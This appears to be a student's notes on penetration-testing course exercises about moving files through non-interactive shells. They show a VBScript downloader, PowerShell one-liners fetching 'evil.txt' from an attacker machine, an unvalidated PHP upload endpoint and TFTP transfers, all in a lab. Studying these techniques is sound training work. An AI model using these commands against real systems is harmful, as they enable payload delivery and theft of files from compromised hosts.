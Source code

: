 Exercises

# 16.1.3.2

# 16.1.3.2.1. Start the Pure-FTPd FTP server on your Kali system, connect to it using the FTP client on the Debian lab VM, and observe how the interactive prompt works.

On the Debian client terminal, here is the interactive session that uses the ftp client
![6665321c53d7117b44ad8d1309633053.png](:/35077e833db647378221f8f1db8544de)


# 16.1.3.2.2. Attempt to log in to the FTP server from a Netcat reverse shell and see what happens.

From Kali, netcat into the Debian client and ftp back into the Kali server. We see it is non-interactive. Then, netcat into the Debian client again and upgrade to an interactive shell using Python. Try to ftp back into the Kali box and we see it's interactive.
![2eddbc47a3fbb60eca21eb673c7fc8d4.png](:/29fa739f4f514ad3a55ee989744d99be)


# 16.1.3.2.3. Research alternatives methods to upgrade a non-interactive shell.
https://gtfobins.github.io/#+non-interactive%20reverse%20shell



# 16.2.5.1 
## 16.2.5.1.1. Use VBScript to transfer files in a non-interactive shell from Kali to Windows.

Here is a VBScript script (wget.vbs) on the Windows client that acts as a simple HTTP downloader
```vbscript
strUrl = WScript.Arguments.Item(0) 
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
Err.Clear 
Set http = Nothing 
Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
http.Open "GET", strURL, False 
http.Send 
varByteArray = http.ResponseBody 
Set http = Nothing 
Set fs = CreateObject("Scripting.FileSystemObject") 
Set ts = fs.CreateTextFile(StrFile, True) 
strData = "" 
strBuffer = "" 
For lngCounter = 0 to UBound(varByteArray) 
ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
Next 
ts.Close 
```

Next we will run it using cscript. It will download the evil.txt file from Kali's web document root.
```
C:\Users\Administrator\Desktop>cscript wget.vbs http://192.168.119.214/evil.txt evil.txt                        
Microsoft (R) Windows Script Host Version 5.812                              
Copyright (C) Microsoft Corporation. All rights reserved.                    C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa                                                                                                                                      C:\Users\Administrator\Desktop> 
```


## 16.2.5.1.2. Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.

### Non-interactive file transfer from Kali to Windows
First, allow PowerShell scripts to run (it is restricted by default).
```plaintext
C:\Users\Administrator\Desktop>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1  
```

Download the evil.txt file from Kali to Windows.
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'evil.exe') 
```

OR we can execute the script without saving it to disk!
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'new-exploit.txt')                                                           C:\Users\Administrator\Desktop>more new-exploit.txt                          Muhahhahahaahahhahaa
```

### Download from  Windows to Kali (or upload from Windows to Kali)
On Kali, create a powershell script and save it to /var/www/html. This script allows anyone that interacts with upload.php to upload files to /var/www/uploads directory.
```plaintext
kali@kali:~$ cat /var/www/html/upload.php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
kali@kali:~$
```

Then, create an uploads folder, modify its permissions so that user www-data can write to it.
```plaintext
kali@kali:/var/www$ sudo mkdir /var/www/uploads
kali@kali:/var/www$ dir
html  uploads
kali@kali:/var/www$ ls
html  uploads
kali@kali:/var/www$ ps -ef | grep apache
root        5395       1  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    5396    5395  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
kali@kali:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Oct  1 04:26 .
drwxr-xr-x 12 root     root     4096 May  8 08:18 ..
drwxr-xr-x  3 root     root     4096 Oct  1 04:25 html
drwxr-xr-x  2 www-data www-data 4096 Oct  1 04:26 uploads
```

On Windows, run powershell to upload the file important.txt to Kali
```
C:\Users\Administrator\Desktop>powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.214/upload.php', 'important.txt')  
```

We see that important.txt has been downloaded to Kali!
```
kali@kali:/var/www/uploads$ cat /var/www/uploads/important.txt 
Nothing important to see here.
```


## 16.2.5.1.3. For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet *Invoke-WebRequest* 403 was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.

### Download a file from Kali
```plaintext
C:\Users\Administrator\Desktop>powershell (Invoke-WebRequest -Uri "http://192.168.119.214/evil.txt" -OutFile "evil.txt")                       
C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa 
```

### Upload a file to Kali
Didn't do this


## 16.2.5.1.4. Use TFTP to transfer files from a non-interactive shell from Kali to Windows.

On Kali, install atftp, create a directory where it can store and serve files, update the ownership so we can write files to it, then run it as a daemon on UDP port 69.
```plaintext
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

On Windows, use the tftp -i comand
```plaintext
C:\Users\Administrator\Desktop>tftp -i 192.168.119.214 put tryharder.txt     Transfer successful: 10 bytes in 1 second(s), 10 bytes/s  
```

Confirm that the file was downloaded to Kali
```plaintext
kali@kali:/tftp$ ls -la tryharder.txt 
-rw-r--r-- 1 nobody nogroup 10 Oct  1 06:40 tryharder.txt
kali@kali:/tftp$ 
```





















id: 055fece68b194e488a43bb7b1f1048e9
parent_id: f595d2d8bff34b16a4169650e984e233
created_time: 2020-10-01T07:10:34.254Z
updated_time: 2020-10-01T10:43:02.545Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-01T07:10:34.254Z
user_updated_time: 2020-10-01T10:43:02.545Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1